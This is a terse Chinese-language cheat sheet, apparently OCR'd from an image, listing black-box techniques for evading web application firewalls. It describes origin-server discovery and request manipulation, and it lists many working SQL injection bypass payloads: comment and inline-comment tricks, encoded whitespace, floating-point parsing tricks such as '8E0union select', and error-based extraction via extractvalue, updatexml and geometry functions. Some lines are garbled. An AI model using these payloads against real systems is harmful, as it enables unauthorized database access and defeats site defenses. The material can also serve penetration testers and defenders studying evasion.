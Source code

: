 2、黑盒绕过

寻找源站 -> 针对云 WAF

利用同网段 -> 绕过 WAF 防护区域

利用边界漏洞 -> 绕过 WAF 防护区域

资源限制角度绕过 WAF

POST 大 BODY

请求方式变换 GET->POST

Content-Type 变换：application/x-www-form-urlencoded;->multipart/form-data;

参数污染

SQL 注释符绕过

Level-1:union/\*\*/select

Level-2:union/\*aaaa%01bbs\*/select

Level-3:union/\*aaaaaaaaaaaaaaaaaaaaaaa\*/select

内联注释:/\*!xxx\*/

空白符绕过

MySQL 空白符：%09,%0A,%0B,%0D,%20,%0C,%A0,/\*XXX\*/

正则的空白符:%09,%0A,%0B,%0D,%20

Example-1:union%250Cselect

Example-2:union%25A0select

concat%2520(

concat/\*\*/(

concat%250c(http://127.0.0.1/Less/?id=1

concat%25a0(

浮点数词法解析

select \* from users where id=8E0union select 1,2,3

select \* from users where id=8.0union select 1,2,3

select \* from users where id=\\Nunion select 1,2,3

extractvalue(1.concat(0x5c,md5(3)));

updatexml(1,concat(0x5d,md5(3))),1);

GeometryCollection((select\*from(select@@version)f)x))

polygon((select\*from(select name\_const(version(),1))x))

linestring()

multipoint()
